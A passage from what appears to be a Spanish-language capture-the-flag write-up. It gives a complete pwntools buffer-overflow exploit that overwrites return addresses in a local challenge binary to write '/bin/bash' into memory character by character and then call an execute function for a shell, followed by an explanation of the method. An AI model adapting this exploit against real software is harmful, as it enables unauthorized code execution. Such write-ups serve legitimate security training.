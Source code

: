 Si juntamos todo esto obtenemos lo siguiente 

![](Pasted%20image%2020250412102107.png)

```python
#!/usr/bin/python3 

from pwn import *

#shell = gdb.debug("./chal", "continue")
shell = process("./chal")

offset = 268
junk = b"A" * offset 

cmd = b"/bin/bash\x00"

for i in range(len(cmd)):
    payload = b""
    payload += junk 
    payload += p32(0x80491f3) #updateCommand
    payload += p32(0x8049248) #vuln
    payload += p32(i)         #iteradordelbucle
    payload += p32(u8(cmd[i:i+1])) #caracterDelcmd

    shell.sendlineafter(b"...\n", payload)

payload = b""
payload += junk 
payload += p32(0x804921d) #executeCommand
shell.sendlineafter(b"...\n", payload)

shell.interactive()
```

**Nota**: Utilizamos el payload una vez más, junto con la dirección de **`execCommand`**, porque, después de completar el barrido de caracteres uno por uno, necesitamos sobrescribir la memoria una vez más para redirigir la ejecución y llamar a la función **`execCommand`**. Esto nos permitirá finalmente ejecutar el comando **`/bin/bash`** y obtener la shell.

En resumen, nuestro exploit aprovecha el **desbordamiento de buffer** para sobrescribir la memoria de manera iterativa, enviando cada carácter de **`/bin/bash`** uno por uno en un bucle. Sin embargo, para lograr esto, necesitamos que, después de cada iteración del desbordamiento de buffer, el programa entre en un bucle. Una vez que todos los caracteres de **`/bin/bash`** hayan sido enviados, realizamos una última sobrescritura de la memoria para redirigir la ejecución a la función **`execCommand`**, lo que nos permitirá obtener una shell interactiva.

![](Pasted%20image%2020250412102556.png)

Y seria todo por este desafío :)



